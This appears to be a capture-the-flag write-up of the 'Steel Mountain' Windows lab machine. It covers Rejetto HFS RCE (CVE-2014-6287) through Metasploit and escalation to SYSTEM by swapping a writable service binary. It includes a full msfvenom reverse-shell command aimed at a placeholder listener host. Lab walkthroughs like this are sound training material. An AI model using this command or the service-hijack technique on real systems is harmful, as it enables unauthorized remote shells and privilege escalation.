










# 🖥️ Machine 03 — Steel Mountain

## 📌 Overview
Steel Mountain is a Windows-based machine focused on web enumeration, exposed credentials exploitation, and privilege escalation through misconfigured services.

---

## 🔍 Enumeration

### 🔸 Nmap Scan




### 🔸 Key Findings
-  CVE‑2014‑6287 is a critical vulnerability in Rejetto HFS 2.3.x that enables remote command execution due to improper handling of a %00 sequence in the findMacroMarker function, allowing attackers to inject and execute arbitrary code.

---

## 🛠️ Tools Used
- **Nmap** — Network scanning   
- **Metasploit Framework** — Initial Access and PrivEsc    
- **Netcat** — Shell handling   

---

## 🎯 Initial Access

This part is straightforward because Metasploit does the work for us. We search for the RCE module and select the one from 2014. We set RHOST, LHOST, and RPORT. When we run it, we obtain an initial Meterpreter session



We are Bill


 

---

## 🚀 Privilege Escalation

The author provides us with the PowerUp.ps1 file needed for the escalation. We upload it and then switch to a PowerShell session using ```load powershell``` and ```powershell_shell``` 


The service we are interested in is AdvancedSystemCareService9.

Author’s comment: The CanRestart option being true, allows us to restart a service on the system, 
the directory to the application is also write-able. This means we can replace the legitimate application with 
our malicious one, restart the service, which will run our infected program!

Now we need to create a reverse shell with msfvenom and upload it:

```msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe```



It’s important to upload it from the Meterpreter session; otherwise, it throws an error because we’re trying to replace the file of a running service. 

Once uploaded, we return to our PowerShell session and run ```sc stop $service```



 In another terminal, we set up a listener with netcat, although we could also use Metasploit, but it tends to be unstable. We restart the service and receive the connection on our netcat listener



Now we are root.

---

## 📂 Loot & Flags
- After gain initial access, in Bill's Desktop is located the user flag



- As a NT AUTHORITY\ SYSTEM the root.txt is located in

 

---

## 🛡️ Defensive Takeaways
- Keep all web services updated to prevent exploitation of known vulnerabilities such as the Rejetto HFS RCE  
- Restrict access to exposed services and admin panels using strong authentication and proper network segmentation.  
- Monitor for abnormal activity in web services, especially unexpected command execution or file uploads
- Enforce least‑privilege configurations to prevent misconfigured services from enabling escalation to SYSTEM  

---

## 🧠 Lessons Learned
- An old and publicly known vulnerability can still be critical if patches are not applied 
- Initial access often depends on solid enumeration and proper use of tools like Metasploit  
- Privilege escalation in Windows relies on identifying insecure services and abusing their configuration  
- Uploading tools from the correct session (Meterpreter) prevents errors and streamlines exploitation 
